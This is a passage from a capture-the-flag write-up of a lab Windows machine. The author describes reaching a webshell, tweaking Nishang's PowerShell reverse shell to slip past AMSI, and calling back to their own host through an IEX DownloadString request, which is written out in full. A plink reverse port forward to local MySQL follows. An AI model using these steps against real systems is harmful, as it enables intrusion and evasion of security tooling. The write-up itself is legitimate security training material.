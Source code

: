 ![2021-08-30_16-25.png](/home/sixstringacks/share/git/tmp_assets/dcd0b2705a1bf4d239f6dfaefe5e42126338800b.png)

Command execution

![2021-08-30_13-42_1.png](/home/sixstringacks/share/git/tmp_assets/3d8414508b93585443c020b23bf5593ff9507b66.png)

Now that I had command execution I could try for a reverse shell. I went with Nishang's Invoke-PowerShellTcp.ps1 script. To prevent AMSI from blocking it I removed the comments, changed the name of the function to ipst, and added a function all at the bottom of the script so it would get executed immediately. 

![2021-08-31_17-15.png](/home/sixstringacks/share/git/tmp_assets/e3ac5364fcc7bee2712534b74e4131972134d994.png)

I started a netcat listener, a simple python http server to host ipst.ps1 and used the webshell to execute Powershell Invoke-Expression, specifying the url to ipst.ps1 and received a call back and shell as user "shaun"

```
GET /upload/shell.php?cmd=powershell+-nop+-exec+bypass+-c+"IEX+(New-Object+Net.WebClient).DownloadString('http%3a//10.10.14.7/ipst.ps1')%3bipst.ps1" HTTP/1.1
Host: 10.10.10.198:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: sec_session_id=imvsd39u14p4kmuk5dm61dkhkg
Connection: close
```

![2021-08-31_17-27.png](/home/sixstringacks/share/git/tmp_assets/9a0a9eb6d033dd888804b87c413d3a1cbf55b7e1.png)

## Steps (root/system)

I went into a bit of a rabbit hole here, while enumerating the file system I found a file called "new text document.txt" that contained mysql credentials

![2021-08-30_17-04.png](/home/sixstringacks/share/git/tmp_assets/251c6da3f67418f6e061ca3c9554d1e88fee208e.png)

Running a netstat I noticed that the mysql server was running on 3306, but was only accessible to local host. I uploaded plink.exe to the machine so I could create a reverse port forward and access the port from my machine. I was able to connet to mysql with root and no password but there was nothing useful there.

```
echo y | .\plink.exe -ssh -l **** -pw "****" -P 2222 -R 8889:127.0.0.1:3306 10.10.14.7
```

Later I came across en executable in the Downloads folder called CloudMe_1112.exe, and cofirmed that a service was running under the same name. I searched for informaton about it and learned that it was some sort of a file sharing and syncronization app, and it runs on the local machine on port 8888. Once again this was only accessible from localhost but I felt like I was finally on the right track.

